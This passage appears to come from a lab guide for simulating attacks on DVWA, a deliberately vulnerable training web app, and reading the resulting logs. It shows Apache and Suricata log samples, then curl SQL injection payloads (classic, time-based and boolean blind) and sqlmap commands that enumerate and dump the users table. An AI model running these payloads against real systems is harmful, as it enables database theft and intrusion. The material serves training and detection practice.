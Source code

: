 #### Expected Logs Generated
```bash
# Apache access logs
10.0.2.15 - - [06/Dec/2023:12:00:15 +0000] "GET / HTTP/1.1" 200 1234 "-" "gobuster/3.1.0"
10.0.2.15 - - [06/Dec/2023:12:00:16 +0000] "GET /admin HTTP/1.1" 404 567 "-" "gobuster/3.1.0"
10.0.2.15 - - [06/Dec/2023:12:00:17 +0000] "GET /login.php HTTP/1.1" 200 890 "-" "gobuster/3.1.0"
10.0.2.15 - - [06/Dec/2023:12:00:18 +0000] "GET /dvwa HTTP/1.1" 200 1567 "-" "gobuster/3.1.0"

# Suricata alerts
[**] [1:2013028:8] ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
12/06-12:00:20.123456 10.0.2.15:45678 -> 10.0.2.101:80
```

### Phase 2: SQL Injection Attacks (60 minutes)

#### DVWA SQL Injection
```bash
# Manual SQL injection testing
curl "http://10.0.2.101/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Automated SQL injection with SQLMap
sqlmap -u "http://10.0.2.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123; security=low" \
  --dbs --batch --risk=3 --level=5

# Database enumeration
sqlmap -u "http://10.0.2.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123; security=low" \
  -D dvwa --tables

# Data extraction
sqlmap -u "http://10.0.2.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123; security=low" \
  -D dvwa -T users --dump
```

#### Blind SQL Injection
```bash
# Time-based blind SQL injection
curl "http://10.0.2.101/dvwa/vulnerabilities/sqli_blind/?id=1' AND (SELECT SLEEP(5))--&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low" \
  -w "%{time_total}"

# Boolean-based blind SQL injection
curl "http://10.0.2.101/dvwa/vulnerabilities/sqli_blind/?id=1' AND (SELECT SUBSTRING(user(),1,1)='r')--&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```
